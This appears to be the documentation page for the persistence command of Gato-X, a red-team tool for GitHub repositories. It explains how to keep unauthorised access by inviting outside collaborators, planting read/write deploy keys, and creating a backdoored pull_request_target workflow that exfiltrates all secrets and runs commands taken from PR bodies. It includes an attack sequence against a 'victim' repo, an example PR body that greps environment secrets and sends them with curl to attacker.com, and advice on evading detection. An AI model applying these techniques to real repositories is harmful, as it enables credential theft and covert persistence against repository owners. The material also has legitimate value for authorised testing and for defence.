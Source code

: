 # Persistence Command

The persistence command enables red teamers and security researchers to deploy advanced persistence techniques in GitHub repositories. This command provides three main attack vectors based on different privilege levels and creates lasting backdoors that can survive various defensive actions.

> **Warning**: These features should only be used with proper authorization and for ethical security research purposes.

## Basic Usage

```bash
gato-x persistence [options]
# or
gato-x persist [options]
# or
gato-x p [options]
```

## Options

### General Options

| Option | Description |
|--------|-------------|
| `--target`, `-t` | Repository to target for persistence in ORG/REPO format (required) |
| `--author-name`, `-a` | Name of the author that all git commits will be made under |
| `--author-email`, `-e` | Email that all git commits will be made under |

### Persistence Technique Options

**Note**: These options are mutually exclusive - you can only select one technique per command execution.

#### Collaborator Invitation (Admin Required)

| Option | Description |
|--------|-------------|
| `--collaborator` | Invite outside collaborators to the repository (requires admin privileges) |

#### Deploy Key Creation (Admin Required)

| Option | Description |
|--------|-------------|
| `--deploy-key` | Create a read/write deploy key for the repository (requires admin privileges) |
| `--key-title`, `-k` | Title for the deploy key (default: "Gato-X Deploy Key") |
| `--key-path`, `-p` | Path to save the private key file (required when using --deploy-key) |

#### Malicious Workflow Creation (Write Required)

| Option | Description |
|--------|-------------|
| `--pwn-request` | Create a malicious pull_request_target workflow on a non-default branch (requires write privileges) |
| `--branch-name`, `-b` | Branch name for pwn-request technique (default: "feature/test-workflow") |

## Persistence Techniques

### 1. Collaborator Invitation

**Privilege Level**: Admin required

This technique invites external users as collaborators to maintain access to the repository.

```bash
# Invite single collaborator
gato-x persistence --target org/repo --collaborator username1

# Invite multiple collaborators
gato-x persistence --target org/repo --collaborator username1 username2 username3
```

**How it works**:
- Sends collaboration invitations to specified GitHub users
- Once accepted, collaborators maintain access even if the original PAT is revoked
- Collaborators inherit repository permissions based on their invitation level

### 2. Deploy Key Creation

**Privilege Level**: Admin required

This technique generates and installs read/write SSH deploy keys with automatic RSA key pair generation.

```bash
# Create deploy key with default title
gato-x persistence --target org/repo --deploy-key --key-path ./private_key.pem

# Create deploy key with custom title
gato-x persistence --target org/repo --deploy-key --key-title "Backup Key" --key-path ./backup_key.pem
```

**How it works**:
- Generates a 2048-bit RSA key pair automatically
- Installs the public key as a read/write deploy key in the repository
- Saves the private key to the specified file path
- Deploy key provides Git access independent of the original PAT

### 3. Malicious Pull Request Target Workflow

**Privilege Level**: Write required

This technique creates a weaponized `pull_request_target` workflow on non-default branches that can be triggered by external contributors.

```bash
# Create malicious workflow on default branch name
gato-x persistence --target org/repo --pwn-request

# Create malicious workflow on custom branch
gato-x persistence --target org/repo --pwn-request --branch-name feature/test
```

**How it works**:
- Creates a new branch with a malicious GitHub Actions workflow
- Uses `pull_request_target` trigger to bypass standard PR security restrictions
- Grants full repository permissions to the workflow
- Exfiltrates all repository secrets via `toJson(secrets)`
- Executes arbitrary code from PR body content
- Can be triggered by any external contributor creating a PR targeting the specified branch

## Example Workflows

### Complete Persistence Setup

```bash
# Step 1: Create deploy key for Git access
gato-x persistence --target victim/repo --deploy-key --key-title "Maintenance Key" --key-path ./maint_key.pem

# Step 2: Invite backup collaborator
gato-x persistence --target victim/repo --collaborator backup-user

# Step 3: Create workflow backdoor
gato-x persistence --target victim/repo --pwn-request --branch-name feature/ci-improvements
```

### Triggering Workflow Persistence

After creating a malicious workflow, trigger it by:

1. Creating a pull request targeting the specified branch
2. Including shell commands in the PR body
3. The workflow will execute the commands and exfiltrate secrets

Example PR body:
```bash
# This is a test PR
whoami
env | grep -E "(SECRET|TOKEN|KEY)"
curl -X POST https://attacker.com/exfil -d "$(env)"
```

## Security Considerations

### Persistence Durability

- **Deploy Keys**: Removed when the creating PAT is revoked or user access is removed
- **Collaborators**: Maintain access until manually removed by repository administrators
- **Malicious Workflows**: Persist until the branch is deleted or workflow file is removed

### Detection Evasion

- Use realistic branch names and workflow titles
- Space out persistence techniques over time
- Use legitimate-looking collaborator usernames
- Deploy keys can use descriptive titles that blend with legitimate keys

## Troubleshooting

### Permission Errors

- **Admin techniques**: Verify you have admin access to the target repository
- **Write techniques**: Verify you have write access to the target repository
- **API limits**: Respect GitHub API rate limits

### Common Issues

- **Deploy key conflicts**: GitHub prevents duplicate SSH keys; ensure your generated key is unique
- **Branch conflicts**: Choose branch names that don't conflict with existing branches
- **Workflow validation**: GitHub validates workflow syntax; malformed YAML will be rejected

## Related Commands

- [Attack Command](attack.md) - Execute various attack techniques against repositories
- [Enumerate Command](enumerate.md) - Discover accessible repositories and permissions
- [Search Command](search.md) - Find repositories with potential vulnerabilities